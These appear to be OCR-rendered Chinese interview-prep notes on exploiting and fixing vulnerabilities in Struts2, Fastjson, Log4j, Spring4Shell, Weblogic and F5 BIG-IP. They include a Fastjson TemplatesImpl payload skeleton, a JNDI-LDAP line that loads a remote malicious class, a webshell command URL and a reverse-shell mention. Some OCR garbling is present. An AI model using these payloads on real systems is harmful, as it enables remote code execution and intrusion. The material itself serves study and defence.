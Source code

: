 **$** 缓解措施： **1、这些 UIBean 元素最终对 name 属性执行第二次 OGNL 评估，因为“value”属性不存在并且它试图填充该属性。因此，通过给所有属性一个空白值 =“”，这将有助于缓解这个问题。（例如：<s:label name="%{skillName}" value="" />**将 org.apache.commons.collection.BeanMap 添加到 Struts2 沙箱的 excludeClasses 列表将排除直接使用它**实践与利用：**点提交按钮然，burpsuite抓包，将Content-Type字段中的内容替换为如下内容**最后响应包里出现指令的结果。$**

**$**快速理解：**st2-045的漏洞，所有问题都出现在Content-Type字段上。**修复建议：**升级struts2框架至最新版。**★Fastjson★**指纹信息：**1、抓包，看请求包中传入的参数值是否形如json格式，如{"张三":100,"李四":200}。随后将json数据随意修改，看响应包中是否出现fastjson.JSONException字样。**2、正常请求是get请求没有请求体。可以通过构造错误的POST请求，看返回包中是否有fastjson这个字符串。**漏洞原理：**只要我们传入一个json类型数据包含@type，程序在调用JSON.parseObject这个方法处理json对象时，程序就会反序列化生成一个对象。因此，了解了Fastjson处理json的机制(这个机制面试的时候一笔带过即可)，攻击者只需要将@type值设为TemplatesImpl，构造一个恶意类，而这个类还有一个字段是_bytecodes，程序根据_bytecodes生成了一个java实例。问题就在于java实例生成的同时，会自动调用构造函数。那么攻击者只要把恶意代码赋值给_bytecodes字段，恶意代码就会执行。**漏洞原理2：**Fastjson 在对 javaBean 进行序列化的时候会调用它的所有get或者is方法，反序列化的时候会调用所有的 set 方法，如果这个 set 方法中含有些危险的调用链，我们则可以利用这个反序列化过程来执行我们自己的命令。 **fastjson告警，怎么判断是不是攻击事件（恶意，状态码）**实践与利用：**1、新建一个java文件，写入恶意代码。然后编译成class文件。**2、然后将class文件内容进行base64之后赋值给_bytecodes[]。**3、fastjson一旦收到这个json对象，恶意代码将被执行。**快速理解：**有这样一个json对象：**{"@type":TemplatesImpl,"_bytecodes":[恶意语句],"_name":'xxx',"_tfactory":{xxx}};**Fastjson在处理json对象时有问题，只要json对象包含@type:TemplatesImpl，那它就会执行_bytecodes字段里的语句。**修复建议：**对@type字段进行过滤。**★Apache Log4j★**影响范围：**Apache Log4j 2.x<★Apache Shiro★=2.14.1**受影响的应用及组件：Spring-Boot-Strater-log4j2、Apache Solr、Apache Flink、Apache Druid**/*B站链接：**[**https://b23.tv/Ha8UUtG*/**](https://b23.tv/Ha8UUtG*/)****大概的执行逻辑（B站找的）：**黑客在自己的客户端启动一个带有恶意代码的rmi服务，通过服务端的log4j的漏洞，向服务端的jndi context lookup的时候连接自己的rmi服务器，服务端连接rmi服务器执行lookup的时候会通过rmi查询到该地址指向的引用并且本地实例化这个类，所以在类中的构造方法或者静态代码块中写入逻辑，就会在服务端（jndi rmi过程中的客户端）实例化的时候执行到这段逻辑，导致jndi注入。**【重要】漏洞原理：原理分三个模块：${…}表达式、log4j的递归解析机制、Jndi注入**原理一、MessagePatternConverter类的format()方法一旦遇见日志中包含"${"，就会将表达式的内容替换为表达式解析后的内容，而不是表达式本身。那么，攻击者只需构造形如"${…}"的表达式，只要表达式符合要求，系统就会执行。**原理二、StrSubstitutor类中提取参数并通过lookup对象进行内容替换，当日志遇到"${"时，Interpolator类以":"号作为分割，将表达式内容分割成两部分。前部分作为prefix(前缀)，后部分作为key(要执行的语句)。然后通过prefix去找对应的lookup对象，通过对应的lookup实例调用其自身的方法，最后将key作为参数带入执行。**原理三、Jndi注入原理就是poc（写好的代码）中${jndi:ldap://192.168.xx.xx/exp}的jndi变量可控。攻击者远程加载一个恶意class文件，当其中的恶意语句被传入到log4j日志文件时，lookup将恶意语句注入到${jndi:ldap://…}中。接着程序通过ldap协议访问192.168.xx.xx这个地址中包含java代码的class文件，从而达成漏洞利用目的。**实践与利用：(问的概率不大，看看就行)**1、在靶机中新建一个Java工程，将apache log4j2的依赖包导入，在src文件夹下创建log4j2.xml文件，作为log4j的配置文件，用来控制输出格式。**2、再在src文件夹下创建hack.java，模拟使用Log4j2框架的可提交输入框，当输入报错时，会将输入框的内容通过logger进行输出，从而将输入框中的恶意语句直接作为参数传递给logger.error函数。**3、在攻击机上创建一个恶意类Log4jRCE.java，这里存放将要通过服务器执行命令的代码。**4、将Log4jRCE.class放在服务器根目录下，在靶机运行IntelliJ里的Hack.java模拟注入攻击提交表单，服务器端使用log4j2输出日志。此时在靶机中成功调用恶意语句。**快速理解：**攻击者向目标发送指定payload，目标对payload进行解析执行，然后通过ldap链接远程服务。当ldap服务收到请求之后，将请求进行重定向到恶意class的地址。最后再下载恶意class并执行其中的代码，从而执行系统命令。**修复建议：**1、添加jvm启动参数-D log4j2.formatMsgNoLookups=true**2、在应用classpath下添加log4j2.component.properties配置文件，文件内容为1中的指令。**3、JDK使用11.0.1、8u191、7u201、6u211及以上的高版本；**4、部署使用第三方防火墙产品进行安全防护。**★Spring Framework★**【重要】Spring Framework远程代码执行漏洞（CVE-2022-22965）**（真问到就说没做过相关复现呢）**影响范围：**1、JDK >= 9且5.3.X < Spring Framework < 5.3.18或5.2.X < Spring Framework < 5.2.20**2、使用受影响的Spring框架或衍生框架。**3、Spring-webmvc或Spring-webflux依赖项。**漏洞的简单描述：（描述时：大概知道一些原理的动机）**Spring Framework是一个开源应用框架，旨在降低应用程序开发的复杂度。它是轻量级、松散耦合的。它具有分层体系结构，允许用户选择组件，同时还为 J2EE 应用程序开发提供了一个有凝聚力的框架。但是在JDK9及以上版本环境中，一些新的版本特性，可以使攻击者绕过一些安全特性，借助某些中间件构造数据包修改敏感文件，达到远程代码执行目的。**（说这个！）Spring框架存在处理流程缺陷，攻击者可远程实现对目标主机的后门文件写入和配置修改，继而通过后门文件访问获得目标主机权限**实践与利用：**1、在本地用Vulfocus 靶场搭建环境，docker-compose up –d即可。**2、在有漏洞的Sprint框架界面抓包，替换get请求内容如下：**3、将包中内容做如下替换：左边是替换前，右边是替换后。
**4、最后访问**[**http://192.168.xx.xx:8080//tomcatwar.jsp?pwd=j&amp;cmd=whoami**](http://192.168.xx.xx:8080//tomcatwar.jsp?pwd=j&cmd=whoami)**，可以看到界面上返回了指令结果。**快速理解：**无**修复建议：**1、UWAF防护**2、代码中搜索@InitBinder注解，看方法体内是否调用dataBinder.setDisallowedFields方法。如果有，则在原来的黑名单中添加{" class.module.*"}。**3、请管理员及时更新至最新版本。**★Weblogic★**漏洞原理：**主要源于在coherence.jar存在着用于gadget构造的类（反序列化构造类），并且利用weblogic默认开启的T3协议进行传输和解析，进而导致weblogic服务器将恶意代码反序列化，最后执行攻击语句。**T3 是用于在 WebLogic 服务器和其他类型的Java程序之间传输信息的协议。服务端可以持续追踪监控客户端是否存活(心跳机制)，通常心跳的间隔为60秒，服务端在超过240秒未收到心跳即判定与客户端的连接丢失。**实践与利用：**这个框架的实践在面试的时候不必说明，因为大部分关于Weblogic的漏洞都和T3协议有关。**快速理解：**Weblogic在通信过程中传输数据对象，涉及到反序列化操作，如果找到某个类在反序列化过程中能执行的代码，就有可能通过控制这些代码达到远程命令执行的效果。**修复建议：**升级框架版本**【挺重要】F5漏洞CVE-2020-5902（暂时没找到最新的）**成因分析**Apache在处理 /tmui/login.jsp/…;/tmui/locallb/workspace/fileRead.jsp ，会认为处理的是 /tmui/login.jsp 文件，但是 .*.jsp 会进行最大限度的匹配，所以就会将完整的/tmui/login.jsp/…;/tmui/locallb/workspace/fileRead.jsp 转给 Tomcat 处理。关于Apache 对访问权限校验的处理，得去看 /etc/httpd/modules/mod_auth_pam.so ，Tomcat 在处理 /tmui/login.jsp/…;/tmui/locallb/workspace/fileRead.jsp 的时候，会先去除 ; / 之间的字符。**漏洞利用**●利用该漏洞可以以root权限在F5环境中执行命令**●通过调用crul命令可以对文件进行读写操作**●bash命令必须要用alias创建别名，否则会命令执行失败**●将运行脚本写入F5中的文件， 并运行该脚本，理论上可以执行任意shell命令**●使用反弹shell来获取F5的shell**
